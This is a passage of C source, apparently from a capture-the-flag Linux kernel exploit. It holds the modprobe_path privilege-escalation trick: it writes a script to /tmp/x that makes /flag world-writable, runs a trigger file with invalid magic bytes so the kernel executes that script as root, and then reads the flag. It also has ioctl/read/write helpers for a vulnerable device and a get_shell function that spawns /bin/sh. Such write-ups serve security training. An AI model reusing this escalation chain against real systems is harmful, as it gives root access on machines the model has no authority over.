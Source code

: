 ```c
    char *const argv[] = {"/tmp/trigger", NULL};
    char *const envp[] = {NULL};
    system("printf \"#!/bin/sh\\nchmod 777 /flag\" > /tmp/x");
    system("chmod +x /tmp/x");
    system("printf \"\\xff\\xff\\xff\\xff\" > /tmp/trigger");
    system("chmod +x /tmp/trigger");
    system("/tmp/trigger");
    system("cat flag.txt");
}

int control_ioctl(uint64_t cmd, uint64_t* buffer)
{
    int fd = open(DEVICE_NAME, O_RDWR);
    int ioctl_result;
    if (fd < 0)
    {
        printf("ioctl: open failed\n");
        return -1;
    }

    ioctl_result = ioctl(fd, cmd, buffer);
    if (ioctl_result < 0)
    {
        printf("ioctl: ioctl failed\n");
    }
    return 0;
}

int control_read(uint64_t* buffer, unsigned int length)
{
    int fd = open(DEVICE_NAME, O_RDWR);
    if (fd < 0)
    {
        printf("read: open failed\n");
        return -1;
    }
    read(fd, (char*)buffer, length);
    return 0;
}

int control_write(uint64_t* buffer, unsigned int length)
{
    int fd = open(DEVICE_NAME, O_RDWR);
    if (fd < 0)
    {
        printf("write: open failed\n");
        return -1;
    }
    write(fd, (char*)buffer, length);
    return 0;
}

void get_shell(void)
{
    system("/bin/sh");
    exit(-1);
}

void close_device(void) {
    if(close(fd) == -1) {
        puts("[!] Error closing the device");
        exit(-1);
    }
```